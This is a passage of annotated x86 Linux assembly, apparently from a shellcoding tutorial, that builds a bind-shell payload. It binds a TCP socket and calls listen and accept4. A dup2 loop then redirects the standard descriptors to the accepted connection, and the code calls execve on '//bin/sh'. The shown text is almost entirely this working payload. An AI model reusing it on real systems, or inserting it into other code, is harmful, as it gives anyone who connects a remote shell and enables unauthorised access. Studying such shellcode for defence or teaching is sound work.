 ```nasm
	xor ecx, ecx
	push ecx
	push ecx
  	push word 0xb315
	push word 0x02

	mov ecx, esp
	mov dl, 16 
	
	int 0x80

	; SYSCALL #3= listen()

  	xor eax, eax
	mov ax, 0x16b
	mov ebx, edi
	xor ecx, ecx
	
	int 0x80

	; SYSCALL #4 = accept4()
	
	xor eax, eax
	mov ax, 0x16c
	mov ebx, edi
	xor ecx, ecx
	xor edx, edx
	xor esi, esi
  
	int 0x80

	xor edi, edi
	mov edi, eax

	; SYSCALL #5 = dup2()
	
  	mov cl, 0x3
	
	loop_dup2:
	xor eax, eax ; clearing out eax
	mov al, 0x3f ; setting the value to the syscall code
	mov ebx, edi ; putting our new_fd we got from our accept return code
	dec cl       ; decrementing the counter register by 1
	int 0x80     ; interrupt call

	jnz loop_dup2 ; if the counter register hasn't hit zero and set the zero flag, it will jump back to the top of our loop

	; SYSCALL #6 = execve()
 
  	xor eax, eax
	push eax
	push 0x68732f6e
	push 0x69622f2f
	mov ebx, esp
	push eax
	mov edx, esp
	push ebx
	mov ecx, esp
	mov al, 0x0b

  	int 0x80
```
